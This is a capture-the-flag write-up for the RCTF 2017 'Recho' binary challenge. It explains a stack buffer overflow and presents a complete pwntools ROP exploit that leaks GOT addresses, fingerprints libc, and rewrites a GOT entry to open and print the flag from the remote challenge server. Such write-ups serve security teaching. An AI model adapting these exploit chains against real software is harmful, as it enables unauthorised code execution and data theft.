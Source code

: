 
= Recho
'hop_e___'
1.0, 2016-05-24
:toc:
:toc-placement: preamble
:icons: font


Writeup for the `Recho` pwn challange from RCTF 2017.


== Overwiev

The supplied zip file contains only a binary.

Analyzing the binary shows that the main function looks something like this:
[source,c]
----
int main(int argc, char* argv[]) {
    char length_buf[0x10];
    char input_buf[0x10];
    int input_len, n_read;

    Init();

    write(1, "Welcome to Recho server!.",0x19);
    while(read(0, length_buf, 0x10) != 0) {
        input_len = atoi(lenght_buf);

        n_read = read(0, input_buf, input_len); // <1>
        input_buf[n_read] = '\0';

        printf("%s", input_buf);
    }
    return 0;
}
----

<1> Buffer overflow!

There is an obvious stack buffer overflow because the input_len is not checked.

It is important to note that main will only return if the call to read
returns 0 i.e. stdin is closed.

My usual approach to a challenge like this would be to send a rop-chain
to leak some pointers, then use the leaked addresses to generate a
rop chain that will give us a shell.
However because we have to close stdin to trigger the first rop-chain,
we would have no way to send the second one.

Another interesting observation is that the binary contains the string "flag".

== Approach

We have to use Return Oriented Programming because the binary has the NX-bit enabled.
When I looked at the output of ROPgadget I noticed one particularly
useful gadget:

....
$ ROPgadget  --binary Recho
[...]
0x000000000040070d : add byte ptr [rdi], al ; ret
[...]
....

Since the binary also contains gadgets that allow us to control rdi and
rax, we can use this gadget to add an offset to an entry in the GOT,
effectivly pointing it to another libc function, and defeating ASLR.

I chose to change the GOT entry for write to point to open.
This will allow us to use the "flag" string to open the flag file.
We can then read its contents into memory and print them to stdout
(read and printf are in the PLT which is not randomized)



== Exploit

=== Helper Functions
First I defined a bunch of helper functions that make creatioin of the rop-chains
easier. I found all the gadgets using ROPgadget.

[source,python]
----
#!/usr/bin/env python2

from pwn import *

def rop_pop_rdi(val):
    '''
    generates rop chain to place val into rdi
    '''
    return p64(0x00000000004008a3) + p64(val)

def rop_pop_rsi(val):
    '''
    generates rop chain to place val into rsi
    '''
    return p64(0x00000000004008a1) + p64(val) + p64(0) + rop_nop()

#0x00000000004006fc : pop rax ; ret
def rop_pop_rax(val):
    '''
    generates rop chain to place val into rax
    '''
    return p64(0x00000000004006fc) + p64(val)

#0x00000000004006fe
def rop_pop_rdx(val):
    '''
    generates rop chain to place val into rdx
    '''
    return p64(0x00000000004006fe) + p64(val)

#0x000000000040070d : add byte ptr [rdi], al ; ret
def rop_add_byte(ptr, val):
    '''
    generates rop chain  to add val to the byte at [ptr]
    '''
    # convert signed 8 bit integers unsigned 64 bit int
    v = u64(pack(val, word_size=8).ljust(8, '\x00'))
    return rop_pop_rdi(ptr) + rop_pop_rax(v) + p64(0x000000000040070d) + rop_nop()

def rop_read(fd, buf, n):
    '''
    generates rop chain  to call read(fd, buf, n)
    '''
    return ''.join([
        rop_pop_rdi(fd),
        rop_pop_rsi(buf),
        rop_pop_rdx(n),
        p64(0x00400600),
        rop_nop(),
    ])

def rop_printf(f):
    '''
    generates rop chain  to call printf(f)
    '''
    return ''.join([
        rop_pop_rdi(f),
        p64(0x004005e0),
        rop_nop(),
    ])


def rop_printf_s(str):
    '''
    generates rop chain  to call printf("%s", str).
    NOTE: this gadget will not return. Use it only as the last gadget
    in a chain.
    '''
    # 0x004005e0 16 sym.imp.printf
    #    ; "%s"
    # 0x00400802 488d3dd50000.  lea rdi, qword 0x004008de
    # 0x00400809 b800000000     mov eax, 0
    # 0x0040080e e8cdfdffff     call sym.imp.printf;[gj]
    printf_gadget = 0x00400802
    return ''.join([
        rop_pop_rsi(str),
        p64(printf_gadget),
        rop_nop(),
    ])


def rop_open(path):
    '''
    generates rop chain open(path, 0)
    uses the modified GOT entry for write
    '''
    return ''.join([
        rop_pop_rdi(path),
        rop_pop_rsi(0),
        p64(0x004005d0),
        rop_nop(),
    ])

def rop_nop():
    '''
    generates rop that just increments rsp by 8 (just one ret)
    '''
    return p64(0x4008a4)
----


=== Collecting Information

We don't know exactly what libc version is
used on the server. To find out I leaked the GOT and used https://github.com/niklasb/libc-database[this]
database to determine the exact libc version.


[source,python]
----
def leak_ptr(addr):
    '''
    leaks a pointer at addr
    will fail if the lowest byte of the pointer contains 0x00
    '''
    # build rop chain
    inp  = '\x00' + cyclic(0x2f) # padding
    inp += 'A' * 8 # fake rbp
    inp += rop_printf_s(addr)


    #t = process(['./Recho'])
    t = remote('recho.2017.teamrois.cn', 9527, level='ERROR')

    # send length of input
    t.sendline(str(len(inp)).ljust(15))

    # send input, this overflows the stack buffer
    t.sendline(inp)

    # make main return and execute the rop chain
    t.shutdown()

    # discard welcome message
    t.recvuntil('server!\n')

    s = t.recvall()
    return hex(u64(s[:8].ljust(8, '\x00')))

log.info('atoi: ' + leak_ptr(0x601040))
log.info('read: ' + leak_ptr(0x601030))
log.info('setvbuf: ' + leak_ptr(0x601038))
log.info('alarm: ' + leak_ptr(0x4005f0))
log.info('write: ' + leak_ptr(0x601018))
----

this gives us an output like this:

....
[*] atoi: 0x7ff767321e80
[*] read: 0x7fc9e2869670
[*] setvbuf: 0x7f79bcd0fe70
[*] alarm: 0x200a3225ff
[*] write: 0x7f7f9e57e6d0
....

The addresses all come from different runs of the binary, so they are all offsets
from a different randomized libc base address.
However this does not matter since we only  care about the lowest
(not randomized) 12 bit anyway.

Using the leaked information and the `find` script that comes with the libc database
we can determine the exact libc version used.
....
$ ./find atoi e80 read 670 setvbuf e70
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu7_amd64)
....

=== Exploiting

Next we have to get the offset between
write and open. To do that we use the dump script from the libc database:

....
$ ./dump libc6_2.23-0ubuntu7_amd64 write open
offset_write = 0x00000000000f66d0
offset_open = 0x00000000000f6450
....

We calculate the offsets
for the last two bytes individually, because the add gadget only adds one byte at a time:

....
$ python2 -c 'print 0x64 - 0x66'
-2
$ python2 -c 'print 0x50 - 0xd0'
-128
....

Now we can use these values to change the GOT entry for write to point
to open. Then we can open the flag file and print its content to
stdout:

[source,python]
----


def make_rop():
    '''
    builds the rop chain to leak the flag
    '''
    return ''.join([
        # NOP to keep the stack 16 byte aligned
        rop_nop(),
        # change write got entry to open by adding the correct offset

        # addres of write in GOT: 0x601018
        rop_add_byte(0x601018 + 0, -128),
        rop_add_byte(0x601018 + 1, -2),


        # address of string "flag":
        # 0x00601058

        # open the flag using the modified GOT

        rop_open(0x00601058),

        # read the flag from the flag file
        # the newly opened file will have fd 3
        rop_read(3, 0x601f00, 100),

        # print the flag
        rop_printf(0x601f00),
    ])

def leak_flag():
    inp  = '\x00' + cyclic(0x2f) # padding to overflow the buffer
    inp += 'A' * 8 # fake stored rbp

    inp += make_rop() # rop chain

    #t = process(['./Recho'])
    t = remote('recho.2017.teamrois.cn', 9527)

    # send lenght of input
    t.sendline(str(len(inp)).ljust(15))

    # send our input. This will overflow the stack buffer
    t.sendline(inp)

    # close the send direction of the socket to make main return
    # and execute our rop chain
    t.shutdown()

    # discard the welcome message
    t.recvuntil('server!\n')

    # recive the flag :D
    return t.recvall()

log.success(leak_flag())
----

This gives us:

....
[+] Opening connection to recho.2017.teamrois.cn on port 9527: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to recho.2017.teamrois.cn port 9527
[+] RCTF{l0st_1n_th3_3ch0_d6794b}
....


